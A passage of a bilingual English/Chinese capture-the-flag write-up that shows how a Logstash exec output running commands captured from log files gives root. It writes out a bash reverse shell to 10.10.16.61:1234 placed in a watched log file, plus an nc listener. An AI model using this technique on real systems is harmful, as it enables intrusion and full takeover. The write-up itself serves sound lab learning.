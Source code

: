```
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

**input.conf**

```
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

**output.conf**

```
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

Now, we have known how to create the corresponding `comando`. The next step is to choose the command to execute. There is not nc in the machine. But there's python and perl in the machine. But the reverse shell command is a little long. So I choose to use `bash -i >& /dev/tcp/10.10.16.61/1234 0>&1`. Write the content to the corresponding file:

现在，我们已经知道如何创建相应的 `comando` 里面。下一步就是选择执行命令了。这台机器里面没有 nc。但是机器里面有 python 和 perl。所以反弹 shell 的命令会有一点场。最后选择了反弹命令：`bash -i >& /dev/tcp/10.10.16.61/1234 0>&1`。将相应的内容写入到文件中：

```
echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.16.61/1234 0>&1" > /opt/kibana/logstash_1.txt
```

Use the nc to listen at port 1234, wait a while, root is coming.

将 nc 设置监听端口 1234，稍等一会，我们就是 root 用户了。

![eykUVs.png](https://s2.ax1x.com/2019/08/04/eykUVs.png)
